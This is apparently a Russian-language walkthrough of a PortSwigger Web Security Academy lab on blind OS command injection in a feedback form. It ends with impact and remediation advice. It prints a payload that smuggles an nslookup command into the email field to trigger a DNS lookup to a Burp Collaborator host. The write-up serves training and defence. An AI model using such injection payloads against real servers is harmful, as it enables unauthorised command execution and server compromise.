






**Платформа:** PortSwigger Web Security Academy  
**Сложность:** Practitioner  
**Категория:** Внедрение команд операционной системы  
**Цель:** Получить подтверждение выполнения команд ОС на сервере, используя out-of-band (внеполосное) взаимодействие.

#### 1. Контекст и анализ поверхности

Приложение имеет функционал обратной связи (Feedback). При отправке формы на сервер отправляется POST-запрос на эндпоинт `/feedback/submit`. Параметры, такие как `email` и `message`, передаются в теле запроса и, вероятно, обрабатываются на бэкенде.

Сервер, обрабатывая параметр `email`, может выполнять системные команды. Так как ответ приложения не зависит от результата выполнения команды, уязвимость является «слепой» (blind), и для ее подтверждения необходимо использовать out-of-band методы.

#### 2. Эксплуатация: Out-of-band взаимодействие

Задача — обойти возможные фильтры и заставить сервер инициировать DNS-запрос на контролируемый нами домен.

**Шаг 1. Подготовка Collaborator**

В Burp Suite открываем вкладку **Burp Collaborator** и генерируем уникальный поддомен (например, `x.egytwj0jtdvonrd8715x1r1uvl1cp2dr.oastify.com`).

**Шаг 2. Внедрение команды**

Перехватываем запрос к `/feedback/submit` в Burp Repeater. Вместо обычного email-адреса внедряем полезную нагрузку, которая заставит сервер выполнить DNS-запрос. Используем оператор `||` для выполнения команды `nslookup`.

**Исходное значение:**  
`email=test@test.com`

**Модифицированное значение:**  
`email=x||nslookup+x.egytwj0jtdvonrd8715x1r1uvl1cp2dr.oastify.com||`

Отправляем запрос.

**Шаг 3. Подтверждение выполнения**

Возвращаемся во вкладку **Burp Collaborator** и нажимаем **Poll now**. Если в списке появился DNS-запрос от нашего поддомена, это подтверждает, что команда `nslookup` была успешно выполнена на сервере.

Лабораторная работа решена.

#### 3. Impact

Уязвимость Blind OS Command Injection позволяет злоумышленнику выполнять произвольные команды операционной системы на сервере. Это может привести к:

- **Полной компрометации сервера:** Чтение, изменение или удаление файлов, установка вредоносного ПО.
- **Доступу к внутренней сети:** Использование сервера как точки входа для атак на другие системы (Lateral Movement).
- **Краже данных:** Извлечение конфиденциальной информации, включая исходный код, конфигурационные файлы и данные пользователей.
- **Отказу в обслуживании (DoS):** Выполнение команд, нарушающих работу приложения.

#### 4. Recommendations

1. **Избегайте вызова системных команд.** Наиболее надежный способ — не использовать функции, подобные `system()`, `exec()`, `popen()` и т.д., с пользовательским вводом. Для большинства задач существуют встроенные библиотеки и API.
2. **Строгая валидация ввода (Allow-list).** Если вызов команд неизбежен, валидируйте все входные данные по строгому белому списку разрешенных символов (например, только буквы и цифры). Никогда не используйте черные списки.
3. **Экранирование аргументов.** Используйте функции экранирования аргументов, предоставляемые языком программирования (например, `escapeshellarg()` в PHP), для безопасной передачи данных в командную строку.
4. **Принцип наименьших привилегий.** Запускайте приложение с минимально необходимыми правами. Это ограничит ущерб в случае успешной эксплуатации уязвимости.